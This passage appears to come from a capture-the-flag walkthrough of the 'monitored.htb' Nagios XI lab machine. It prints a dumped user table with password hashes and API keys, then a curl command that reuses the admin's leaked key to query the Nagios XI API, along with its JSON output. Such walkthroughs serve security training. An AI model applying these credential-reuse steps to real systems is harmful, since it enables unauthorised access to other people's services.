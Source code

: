 ```
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1715201011   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 7              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

```

There’s two users, svc and admin. Neither hash cracks in `hashcat` with `rockyou.txt`. But there is an API key for each user as well.

#### Admin API POC

I’ll go back to the original API example from [the PDF above](#api-documentation), and with admin’s API key it works!

```

oxdf@hacky$ curl "https://nagios.monitored.htb/nagiosxi/api/v1/system/status?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -k
{
    "instance_id": "1",
    "instance_name": "unassigned",
    "status_update_time": "2024-05-09 06:49:11",
    "program_start_time": "2024-05-08 15:27:26",
    "program_run_time": "55305",
    "program_end_time": "1970-01-01 00:00:01",
    "is_currently_running": "1",
    "process_id": "909",
    "daemon_mode": "1",
    "last_command_check": "1969-12-31 19:00:00",
    "last_log_rotation": "2024-05-08 23:59:59",
    "notifications_enabled": "1",
    "active_service_checks_enabled": "1",
    "passive_service_checks_enabled": "1",
    "active_host_checks_enabled": "1",
    "passive_host_checks_enabled": "1",
    "event_handlers_enabled": "1",
    "flap_detection_enabled": "1",
    "process_performance_data": "1",
    "obsess_over_hosts": "0",
    "obsess_over_services": "0",
    "modified_host_attributes": "0",
    "modified_service_attributes": "0",
    "global_host_event_handler": "xi_host_event_handler",
    "global_service_event_handler": "xi_service_event_handler"
}

```
